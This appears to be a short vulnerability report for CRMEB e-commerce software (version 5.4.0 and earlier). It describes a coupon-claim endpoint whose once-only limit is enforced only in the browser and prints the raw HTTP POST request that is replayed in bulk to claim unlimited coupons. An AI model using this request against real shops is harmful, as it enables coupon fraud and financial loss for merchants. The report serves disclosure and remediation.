


### Target

https://github.com/crmeb/CRMEB

### Version

<=5.4.0

### Description

At present, there is a business logic vulnerability in the system. Users can bypass the front-end restriction of only being able to claim coupons once by capturing packets and sending a large number of data packets for coupon collection, achieving unlimited coupon collection.

### Details

```
POST /api/coupon/receive HTTP/1.1
Host: 
Connection: keep-alive
Content-Length: 17
sec-ch-ua: "Chromium";v="124", "Microsoft Edge";v="124", "Not-A.Brand";v="99"
Authori-zation: Bearer 
sec-ch-ua-mobile: ?0
Authorization: Bearer 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Form-type: pc
Content-Type: application/json;charset=UTF-8
Accept: application/json, text/plain, */*
sec-ch-ua-platform: "Windows"
Origin: https://v5.crmeb.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://v5.crmeb.net/goods_detail/914
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: 

{"couponId":1634}
```

Sending a large number of data packets to achieve unlimited collection of coupon number 1634



